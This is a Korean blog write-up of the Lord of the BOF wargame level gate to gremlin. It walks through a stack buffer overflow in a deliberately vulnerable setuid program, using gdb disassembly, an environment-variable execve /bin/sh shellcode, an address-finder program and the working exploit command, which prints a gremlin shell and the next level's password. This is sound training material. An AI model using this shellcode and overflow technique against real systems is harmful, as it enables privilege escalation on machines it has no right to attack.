 ```yaml
---
title: LOB 1번 gate -> gremlin Write-up
date: 2017-8-20 18:05:00
categories: LOB
tags: LOB, gate, gremlin
---
```


LOB 1번과 비슷한 오버플로우 문제인 FTZ 9번과 11번 문제의 write-up을 참고해 문제를 풀었습니다.

## LOB 1번

LOB를 설치한 VM의 주소로 접속하면 이러한 화면이 나온다.


    _______________________
      _______________________-------------------                       `\
     /:--__                                                              |
    ||< > |                                   ___________________________/
    | \__/_________________-------------------                         |
    |                                                                  |
     |        The Lord of the BOF : The Fellowship of the BOF, 2010    |
     |                                                                  |
     |                                                                  |
      |       [enter to the dungeon]                                    |
      |       gate : gate                                                |
      |                                                                  |
      |       [RULE]                                                     |
       |      - do not use local root exploit                             |
       |      - do not use LD_PRELOAD to my-pass                          |
       |      - do not use single boot                    [h4ck3rsch001] |
      |                                              ____________________|_
      |  ___________________-------------------------                      `\
      |/`--_                                                                 |
      ||[ ]||                                            ___________________/
       \===/___________________--------------------------
    
    login:

`bash2`부터 띄우자.

    [gremlin@localhost gremlin]$ bash2

LOB에서는 my-pass 명령을 쳤을 때 다음 레벨의 비밀번호인 플래그가 출력되는데, 아직은 gate권한이라 이렇게 플래그 출력을 거부한다.

    [gate@localhost gate]$ id
    uid=500(gate) gid=500(gate) groups=500(gate)
    [gate@localhost gate]$ my-pass
    euid = 500
    I dunno

현재 디렉토리에는 파일이 3개가 있다.

    [gate@localhost gate]$ ls -l
    total 16
    -rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
    -rw-rw-r--    1 gate     gate          272 Mar 29  2010 gremlin.c

bash2를 띄운 후 gremlin의 소스를 확인하면 이렇게 생겼다.

    [gate@localhost gate]$ bash2
    [gate@localhost gate]$ cat gremlin.c
    /*
            The Lord of the BOF : The Fellowship of the BOF
            - gremlin
            - simple BOF
    */
    
    int main(int argc, char *argv[])
    {
        char buffer[256];
        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }

간단한 BOF 형태이다. 리눅스 실행시 전달된 인자값을 256바이트의 버퍼에 저장하는데, 여기서 bof가 생길 수 있다.

소유주가 gremlin인 파일은 gate권한으로 gdb를 실행할 수 없으므로 gremlin 파일을 복사해야한다.

    [gate@localhost gate]$ cp gremlin gremlin1
    [gate@localhost gate]$ ls -l
    total 28
    -rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
    -rw-rw-r--    1 gate     gate          272 Mar 29  2010 gremlin.c
    -rwsr-sr-x    1 gate     gate        11987 Aug 20 12:45 gremlin1

메모리에는 256바이트의 버퍼값과 4바이트의 버퍼 주소값이 저장되기 때문에 이처럼 파이썬 코드를 이용해 260바이트의 값을 넣어주면 Segmentation fault가 출력됨을 알 수 있다.
Segmentation fault에러는 할당된 메모리를 넘어서서 잘못된 부분까지 건드릴 때 나오는 에러로, 오버플로우의 확인 메시지로 보면 된다.

    [gate@localhost gate]$ ./gremlin1 `python -c 'print "a"*260'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    Segmentation fault (core dumped)

[uid 참고 자료](http://sosal.kr/122)

### 쉘코드 작성
gremlin 파일에는 setuid가 걸려있으므로 buffer를 넘어서서 sfp 값을 덮어쓰고, ret값을 수정하면 root권한의 쉘을 실행시킬 수 있다. gdb에서 gremlin의 main함수를 뜯어보면 `main+3` 에서 0x100, 즉 256바이트만큼 ESP의 값을 낮춤으로써 버퍼를 확보하는것이 보인다.

    (gdb) disass main
    Dump of assembler code for function main:
    0x8048430 <main>:       push   %ebp
    0x8048431 <main+1>:     mov    %esp,%ebp
    0x8048433 <main+3>:     sub    $0x100,%esp
    0x8048439 <main+9>:     cmpl   $0x1,0x8(%ebp)
    0x804843d <main+13>:    jg     0x8048456 <main+38>
    0x804843f <main+15>:    push   $0x80484e0
    0x8048444 <main+20>:    call   0x8048350 <printf>
    0x8048449 <main+25>:    add    $0x4,%esp
    0x804844c <main+28>:    push   $0x0
    0x804844e <main+30>:    call   0x8048360 <exit>
    0x8048453 <main+35>:    add    $0x4,%esp
    0x8048456 <main+38>:    mov    0xc(%ebp),%eax
    0x8048459 <main+41>:    add    $0x4,%eax
    0x804845c <main+44>:    mov    (%eax),%edx
    0x804845e <main+46>:    push   %edx
    0x804845f <main+47>:    lea    0xffffff00(%ebp),%eax
    0x8048465 <main+53>:    push   %eax
    0x8048466 <main+54>:    call   0x8048370 <strcpy>
    0x804846b <main+59>:    add    $0x8,%esp
    0x804846e <main+62>:    lea    0xffffff00(%ebp),%eax
    0x8048474 <main+68>:    push   %eax
    0x8048475 <main+69>:    push   $0x80484ec

추가적인 더미 메모리 구조는 없으므로 메모리 구조는 아래와 같다.

buffer(256byte)  |  sfp(4byte) | ret(4byte)

따라서 쉘코드는 아래처럼 만들면 된다.

(buffer를 채울 nop값 256바이트) | (SFP채울 더미 값 4byte) | (쉘코드의 주소값 4byte)

리눅스의 export명령어를 활용해 shell이라는 환경변수를 등록한다.

    [gate@localhost gate]$ export shell=`python -c 'print "\x90" * 100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`

이제 이 shell이라는 환경변수의 주소값을 찾아서 ret값에 넣어주기만 하면 된다.

    [gate@localhost gate]$ mkdir temp
    [gate@localhost gate]$ cd temp
    [gate@localhost temp]$ vi addr.c
    #include<stdio.h>
    int main(){
            printf("%#p \n", getenv("shell"));
    }

    [gate@localhost temp]$ gcc -o addr addr.c
    [gate@localhost temp]$ ls
	addr  addr.c
	[gate@localhost temp]$ ./addr
	0xbffffd90

따라서 shellcode의 주소는 0xbffffd90이다.

    [gate@localhost gate]$ ./gremlin `python -c 'print "\x90" * 260 + "\x90\xfd\xff\xbf"'`
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA멅?
    bash$ id
    uid=500(gate) gid=500(gate) euid=501(gremlin) egid=501(gremlin) groups=500(gate)
    bash$ my-pass
    euid = 501
    hello bof world

2번 문제인 cobolt의 비밀번호는 `hello bof world`로 나왔다.
